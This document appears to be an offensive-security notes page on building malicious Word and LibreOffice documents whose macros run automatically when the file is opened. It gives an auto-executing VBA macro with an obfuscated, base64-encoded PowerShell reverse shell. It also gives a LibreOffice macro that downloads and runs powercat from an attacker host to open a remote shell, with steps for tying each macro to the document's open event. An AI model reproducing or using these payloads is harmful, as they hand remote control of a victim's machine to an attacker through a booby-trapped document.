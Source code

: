 # Macros

## .doc

Problem:
We need to make a .doc document with a macro that creates a reverse shell.

To do this, first use [powershell-UTF16LE.py](../../../payloads-n-scripts/reverse-shells/powershell-UTF16LE.py) to generate a an encoded powershell reverse shell.
Now, use [string-shortener.py](./string-shortener.py) to split the string into multiple assignments (due to a funky limitation in VBA).

Now, insert the result into the following:


```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    
    Dim Str As String
    
    Str = Str + "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgA"
    Str = Str + "D0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0"
    Str = Str + "ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAa"
    Str = Str + "QBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEAMAAwAC4AMQA"
    Str = Str + "wACIALAAgADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgA"
    Str = Str + "CQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACk"
    Str = Str + "AOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAM"
    Str = Str + "AAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQA"
    Str = Str + "oACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkA"
    Str = Str + "CgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4"
    Str = Str + "ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZ"
    Str = Str + "ABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAA"
    Str = Str + "tAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlA"
    Str = Str + "HgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEc"
    Str = Str + "AZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAI"
    Str = Str + "AAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQB"
    Str = Str + "lAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0A"
    Str = Str + "C0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGs"
    Str = Str + "AMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAU"
    Str = Str + "wAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAA"
    Str = Str + "iAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbA"
    Str = Str + "HQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEM"
    Str = Str + "ASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAY"
    Str = Str + "gBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdAB"
    Str = Str + "lACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkA"
    Str = Str + "GIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGE"
    Str = Str + "AbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQAL"
    Str = Str + "gBDAGwAbwBzAGUAKAApAA=="


    CreateObject("Wscript.Shell").Run Str
End Sub
```

Now it is *IMPORTANT* to save the macro _on the document_ rather than in the projects of the MS Office on the machine.
So when going into MS Word, choose --> View --> Macros --> choose your document in the dropdown --> choose "create".

## LibreOffice


LibreOffice Macros are created by creating a .odt file on the attackbox and doesn't require a Windows VM.
In a LibreOffice document go to Tools --> Organize Macros --> Basic. Now click on the Document --> Standard --> New.
As the syntax is slightly different, the payload will also be.
Here, we simply use the following payload in the Main function:


```
Sub Main
	Shell("cmd /c powershell IEX(New-Object System.Net.WebClient).DownloadString('http://${ATTACKER_IP}:${ATTACKER_WEB_PORT}/powercat.ps1');powercat -c ${ATTACKER_IP} -p ${ATTACKER_PORT} -e powershell")
End Sub
```

This should download and execute powercat.
Now, you save the macro, go to Tools --> Customize --> Events --> Open Document.
In the resulting popup, go under the document, click the macro and click 'OK'.
